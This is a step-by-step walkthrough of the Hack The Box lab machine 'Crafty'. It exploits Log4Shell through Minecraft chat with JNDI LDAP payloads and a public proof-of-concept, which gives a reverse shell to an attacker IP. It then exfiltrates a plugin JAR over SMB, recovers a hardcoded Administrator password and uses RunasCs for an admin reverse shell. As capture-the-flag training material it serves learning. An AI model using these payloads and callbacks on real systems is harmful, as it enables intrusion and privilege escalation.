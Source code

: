 # HTB: Crafty 🤖 - Full Walkthrough

---

## 🔎 Recon

### 🔮 Port Scan
```bash
nmap -p- --min-rate 10000 -oA nmap/alltcp 10.10.11.249
nmap -p 80,25565 -sCV 10.10.11.249
```
- HTTP (80): Microsoft IIS 10.0
- Minecraft (25565): Version 1.16.5 (Crafty Server)

### 🌐 Host Mapping
```bash
echo "10.10.11.249 crafty.htb play.crafty.htb" | sudo tee -a /etc/hosts
```

### 🚀 Web Enumeration
```bash
feroxbuster -u http://crafty.htb \
-w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
> Found: /home, /coming-soon, /css, /img, /js

---

## 🗰 Minecraft Port 25565

### 🎮 Client: Minecraft Console Client (Free)
```bash
./MinecraftClient-20240415-263-linux-x64 0xdf
```
- Server: crafty.htb
- Version: 1.16.5

### 🔍 Log4Shell Detection
```bash
nc -lnvp 389
# Send in chat:
${jndi:ldap://10.10.14.6/test}
```

---

## 🛡️ Exploit Log4Shell

### ⚙️ Setup
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt
tar xf jdk-8u20-linux-x64.tar.gz
```

### ✊ Fix Payload (Windows)
Edit `poc.py`: `String cmd="cmd.exe";`

### 🎣 Launch Exploit
```bash
nc -lnvp 443
python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
```
Send via chat:
```text
${jndi:ldap://10.10.14.6:1389/a}
```
> Result: Shell as `svc_minecraft`

---

## 🛠️ Privilege Escalation to Administrator

### 📁 Check Plugin Directory
```powershell
cd 'C:\Users\svc_minecraft\server\plugins'
Get-FileHash playercounter-1.0-SNAPSHOT.jar
```

### 🚚 Exfiltrate JAR
```bash
smbserver.py share . -smb2support -username oxdf -password oxdf
```
```powershell
net use \\10.10.14.6\share /u:oxdf oxdf
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
```

### 🔬 Reverse Engineering
- Tool: `jd-gui`
- Credential Found: `Administrator : s67u84zKq8IXw`

### 🔑 Validate with RunasCs
```powershell
wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
```

### 🚀 Shell as Admin
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
```
> Reverse shell as `Administrator`

---

## 🧰 Flags

- **User**: `c:\Users\svc_minecraft\Desktop\user.txt`
- **Root**: `c:\Users\Administrator\Desktop\root.txt`

---

## 🔎 Beyond Root - web.config Analysis

- `index.html` ➔ redirected to `/home`
- `/home` ➔ rewritten to `index.html`
- `/coming-soon` ➔ rewritten to `coming-soon.html`
- Redirects all other non-`crafty.htb` hostnames back to `crafty.htb`

> IIS URL Rewriting explained the static behavior and redirection logic.